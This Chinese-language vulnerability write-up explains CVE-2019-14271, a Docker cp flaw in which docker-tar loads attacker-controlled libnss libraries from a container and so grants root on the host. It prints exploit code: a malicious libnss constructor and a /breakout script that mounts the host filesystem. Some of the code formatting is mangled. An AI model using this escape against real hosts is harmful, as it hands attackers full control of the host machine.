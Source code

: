 ```yaml
---
title: "（CVE-2019-14271）Docker copy漏洞"
id: zhfly2890
---
```


# （CVE-2019-14271）Docker copy漏洞

## 一、漏洞简介

## 二、漏洞影响

Docker 19.03.1

## 三、复现过程

### Docker cp

Copy命令允许从容器、向容器中、或容器之间复制文件。语法与标准的unix cp命令非常相似。要从容器中复制/var/logs，语法是docker cp container_name:/var/logs /some/host/path。

从下图所示，要从容器中将文件复制出去，Docker使用了一个名为docker-tar的帮助进程。

![image](../img/5ddd7d1cee95b0637965f2cf8d512ac4.png)

图 1\. 从容器中复制文件

docker-tar是通过chroot到容器，将请求的文件或目录存档，然后将生成的tar文件传递给Docker daemon，然后由daemon提取到主机的目标目录中。

注释：CHROOT就是Change Root，也就是改变程序执行时所参考的根目录位置。CHROOT可以增进系统的安全性，限制使用者能做的事。

![image](../img/07d632cf0cf2eeb1f6ebdc1565d7c6d5.png)

图 2\. docker-tar chroot到容器中

Chroot主要是为了避免系统链接的问题，当主机进程尝试访问容器中的文件时就可能会引发系统链接问题。如果访问的文件中有系统链接，就会解析到host root。因此，攻击者控制的容器就可以尝试和诱使docker cp在主机而非容器上读写文件。去年有许多Docker和Podman相关的系统链接CVE漏洞。通过chroot到容器的root，docker-tar可以确保所有系统链接都可以高效地解析。

但，chroot到容器然后从容器中复制文件可能会引发很严重的安全问题。

### CVE-2019-14271

Docker是用Golang语言编写。有漏洞的Docker版本是用Go v1.11编译的。在该版本中，一些含有嵌入C代码（cgo）的包会在运行时动态加载共享的库。这些包包括net和os/user，都是docker-tar使用的，而且在运行时会加载多个libnss_*.so库。一般来说，库是从host文件系统加载的，但因为docker-tarchroot到了容器，因此会从容器文件系统中加载库。也就是说docker-tat会加载和执行来源于容器或由容器控制的代码。

需要说明的是，除了chroot到容器文件系统外，docker-tar并没有被容器化。它是在host命名空间运行的，权限为root全新且不受限于cgroups或seccomp。因此，通过注入代码到docker-tar，恶意容器就可以获取host主机的完全root访问权限。

可能的攻击场景有Docker用户从另一个Docker处复制文件：

容器运行含有恶意libnss_*.so库的镜像

容器中含有被攻击者替换的libnss_*.so库

在这两种情况下，攻击者都可以获取主机上的root代码执行权限。

### 漏洞利用

为利用该漏洞，研究人员需要先创建一个恶意libnss库。研究人员随意选择了libnss_files.so文件，下载了库函数的源码，并在代码中加入了一个函数——run_at_link()。研究人员还为该函数定义了constructor属性。constructor属性表明run_at_link函数在进程加载时会作为库的初始化函数执行。也就是说，当Docker-tar进程动态加载恶意库时，run_at_link函数就会执行。下面是run_at_link的代码：

```
#include ...

#define ORIGINAL_LIBNSS “/original_libnss_files.so.2”

#define LIBNSS_PATH “/lib/x86_64-linux-gnu/libnss_files.so.2”

bool is_priviliged();

**attribute** ((constructor)) void run_at_link(void)

{

char * argv_break[2];

if (!is_priviliged())

return;

```
 rename(ORIGINAL_LIBNSS, LIBNSS_PATH);
 fprintf(log_fp, "switched back to the original libnss_file.so");

 if (!fork())
 {

       // Child runs breakout
       argv_break[0] = strdup("/breakout");
       argv_break[1] = NULL;
       execve("/breakout", argv_break, NULL);
 }
 else
       wait(NULL); // Wait for child

 return; 
``` `}

bool is_priviliged()

{

FILE * proc_file = fopen("/proc/self/exe", “r”);

if (proc_file != NULL)

{

fclose(proc_file);

return false; // can open so /proc exists, not privileged

}

return true; // we’re running in the context of docker-tar

}` 
```

查/proc目录完成的。如果run_at_link运行在docker-tar环境下，那么目录就是空的，因为procfs挂载在/proc上只存在于容器的mount命名空间。

然后，run_at_link会用恶意libnss库替换原始库。这保证了漏洞利用运行的随后进程不会意外加载恶意版本，并触发run_at_link执行。

为简化该漏洞利用，run_at_link会尝试在容器的/breakout路径下运行可执行文件。这样漏洞利用的其他部分就可以用bash写入，而非C语言。让逻辑的其他部分在run_at_link外，意味着在漏洞利用每次变化后无需重新编译恶意库，只需改变breakout二进制文件就可以了。

![image](../img/5c5bd333283d1247c534764951704677.png)

利用CVE-2019-14271打破Docker

在该漏洞视频中，Docker用户会运行含有恶意libnss_files.so的恶意镜像，然后尝试从容器中复制一些日志。镜像中的/breakout二进制文件是一个简单的bash脚步，会挂载host文件系统到/host_fs的容器中，并将消息写入host的/evil目录。
/breakout脚本代码如下：

```
umount /host_fs && rm -rf /host_fs
mkdir /host_fs `mount -t proc none /proc     # mount the host’s procfs over /proc

cd /proc/1/root              # chdir to host’s root

mount --bind . /host_fs      # mount host root at /host_fs

echo “Hello from within the container!” > /host_fs/evil` 
```

## 四、参考链接

> https://xz.aliyun.com/t/6806